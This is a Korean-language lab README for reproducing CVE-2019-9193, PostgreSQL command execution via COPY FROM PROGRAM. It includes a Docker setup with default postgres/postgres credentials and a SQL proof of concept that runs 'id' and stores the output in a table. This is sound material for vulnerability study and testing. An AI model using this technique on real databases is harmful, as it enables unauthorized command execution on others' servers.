 # PostgreSQL 권한 명령 실행 취약점 (CVE-2019-9193)
### Contributors
* [이주호(@bmchun00)](https://github.com/bmchun00)

PostgreSQL은 관계형 데이터베이스입니다. 버전 9.3부터 11까지 관리자 또는 'COPY TO/FROM PROGRAM' 권한이 있는 사용자는 이 취약점을 응용하여 임의의 명령을 실행할 수 있습니다.

참고 링크 : 
* https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

# 환경 구성
취약점이 있는 환경을 구성합니다.
```
docker compose up -d
```
해당 환경에서 Postgres의 기본 5432포트가 열리며, 계정 암호는 postgres/postgres입니다.

# Exploit
먼저 postgres에 연결하고 참조 링크에서 POC를 실행합니다.
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
FROM PROGRAM 문은 명령 id를 실행하고 결과를 cmd_exec 테이블에 저장합니다.

![](1.png)

혹은 id명령어 대신 ls명령어 등을 사용해 쉘 명령어를 수행할 수있습니다.

![](2.png)